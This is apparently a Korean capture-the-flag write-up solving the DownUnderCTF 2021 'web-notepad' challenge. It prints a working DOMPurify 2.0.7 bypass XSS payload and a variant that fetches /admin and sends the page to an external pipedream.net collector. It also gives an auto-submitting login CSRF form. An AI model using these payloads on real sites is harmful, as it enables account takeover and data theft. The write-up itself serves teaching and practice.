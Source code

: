 XSS를 트리거 하기 위해 위 POC를 저장해주니 당연히 sanitize에 의해 XSS가 제어 되고 있는 것을 확인할 수 있었습니다.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js" integrity="sha512-L03kznCrNOfVxOUovR6ESfCz9Gfny7gihUX/huVbQB9zjODtYpxaVtIaAkpetoiyV2eqWbvxMH9fiSv5enX7bw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.7/purify.min.js" integrity="sha512-pAsGSA54gmV3kpBZBDMk7SgP6DnYNNzj6ZFZ6//jUKOaXSSkE5sdbZMazo3u5QOofhZoGeNwo4Z4e526HPQhcg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
```
Dompurify는 2.0.7을 이용해 XSS를 대응하는 것을 확인 할 수 있었고, Dompurify Bypass Poc를 이용해서 XSS를 트리거 하기로 했습니다.

![image](https://user-images.githubusercontent.com/49112423/134767329-7625d16d-0af6-481f-b0f7-ba713d6e34bf.png)

```html
</p><form><math><mtext></form><form><mglyph><style></math><img src=x onerror="alert(1)"><p>
```

위 POC 코드를 저장해주니 Dompurify가 우회 돼 XSS가 트리거 되는 것을 확인할 수 있었고, 양 끝에 `</p>`, `<p>` 태그를 넣어준 이유는 `converter.makeHtml()`를 이용해서 마크다운을 HTML로 변환해주고 반환 해주는데, 이때 양 옆에 불 필요한 `<p>` 태그가 생겨 무효화 시켜 주기 위함 입니다.

```html
</p><form><math><mtext></form><form><mglyph><style></math><img src=x onerror="fetch('/admin').then(function(response){return/**/response.text();}).then(function(x){fetch('https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f='+x)})"><p>
```

마지막으로 위 POC 코드를 이용해서 플래그를 획득 하기로 했지만, Note 마다 고유의 번호가 존재 하지 않아 POC 코드를 저장해도 관리자가 해당 페이로드를 읽게 하는 데 무리가 있었습니다.

```python
@app.route('/login', methods=['GET', 'POST'])
async def login_():
    err = ''
    if quart.request.method == "POST":
        form = await quart.request.form
        username, password = map(form.get, ['username', 'password'])

        if username is None or password is None:
            err = "Username and password must be specified"
        elif not await login(username, password):
            err = "Invalid username or password"
        else:
            quart.session['user'] = username
            return quart.redirect(quart.url_for('me'))

    return await quart.render_template('login.html', err=err)
```
그러다가 로그인 로직을 확인 해보니 로그인을 성공하면 현재 로그인 한 사용자 세션으로 `/me`로 리다이렉션 시켜주는 것을 확인 할 수 있었습니다. 이를 이용해서 그냥 `CSRF` 해주면 됩니다.

개인 서버에 `Form` 태그를 올리고 관리자가 제 계정으로 로그인 하게 하고, 제 세션의 관리자 권한을 올려 플래그를 읽기로 했습니다.

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
  </head>
  <body>
        <form action="https://web-notepad-f6ed1a7d.chal-2021.duc.tf/login" method="POST" id=poc>
                <input name='username' value='pocas'>
                <input name='password' value='pocas'>
        </form>
        <script>
                poc.submit()
        </script>
  </body>
</html>
```